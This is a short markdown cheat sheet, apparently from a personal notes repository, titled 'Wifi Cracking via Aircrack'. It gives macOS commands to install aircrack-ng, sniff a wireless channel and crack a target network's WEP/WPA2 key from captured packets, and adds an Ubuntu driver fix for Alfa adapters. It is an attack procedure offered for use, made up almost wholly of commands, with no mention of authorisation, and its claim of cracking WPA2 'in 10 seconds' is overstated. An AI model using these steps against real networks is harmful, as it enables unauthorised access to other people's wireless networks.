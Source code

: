 ```yaml
---
title: "Wifi Cracking via Aircrack"
---
```


Deploy Aircrack for cracking WPA2 / WEP in 10 seconds. Written and based on **MacOS** host.

```
# => install macports
...

# => install aircrack-ng
$ sudo port install aircrack-ng

# => install latest XCode, with all Command Line Tools
...

# => create the following symlink
$ sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport

# => identity channel to sniff 
$ sudo airport -s

# => in another terminal
$ sudo airport en1 sniff [CHANNEL]

# => in another terminal
$ aircrack-ng -1 -a 1 -b [TARGET_MAC_ADDRESS] [CAP_FILE]
```

Note that the *cap_file* will be located in the `/tmp/airportSniff*.cap`.

---

Deploy Aircrack for **Ubuntu 16.04**, you will need to fix **AlfaNetwork** drivers.

```
$ echo "options rt2800pci  nohwcrypt=1" | sudo tee /etc/modprobe.d/rt2800pci.conf
$ sudo modprobe -rfv rt2800pci
$ sudo modprobe -v rt2800pci
```
